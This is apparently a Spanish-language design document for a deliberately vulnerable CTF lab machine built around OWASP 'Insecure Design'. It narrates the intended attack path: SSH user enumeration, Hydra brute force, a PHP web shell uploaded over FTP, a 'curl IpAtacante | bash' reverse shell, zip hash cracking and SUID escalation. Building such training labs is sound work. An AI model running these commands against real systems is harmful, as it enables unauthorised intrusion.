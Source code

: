 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.
****
El servicio **FTP** podrá ser accesible de forma anónima.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **secret**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una herramienta de **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **Elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **Elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **Elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **Elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **Elijah** podrá ver que puede visualizar un directorio **Elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **Elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **secret** dentro de la web y verá que dentro de **secret** existe **Elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **Elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, encontraremos una imagen del persone **Caroline**. dicha imagen tendrá un zip llamado **backupPasswords.zip** en **/var/www/**, cifrado con una contraseña, la cual podremos crackear con **zip2john** para obtener el **hash** y despues crackear el **hash** con la herramienta de **John**.

Cuando hagamos el unzip del fichero, el atacante verá otro fichero con muchas contraseñas, y utilizará estas contraseñas para acceder con otro usuario del sistema llamado **Caroline**, de esta forma podrá **moverse lateralmente** a este usuario.

Con el usuario **Caroline**, podremos visualizar la flag **user.txt** en el directorio **/home/caroline/**, además el atacante verá que tiene permisos de SUID sobre un fichero en especifico, el cual este permiso le permitirá escalar sus privilegios al usuario de root.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd* version 3.0.3 --> Para transferencia de archivos.
- **SSH**: *OpenSSH 9.6p1* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.58* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**
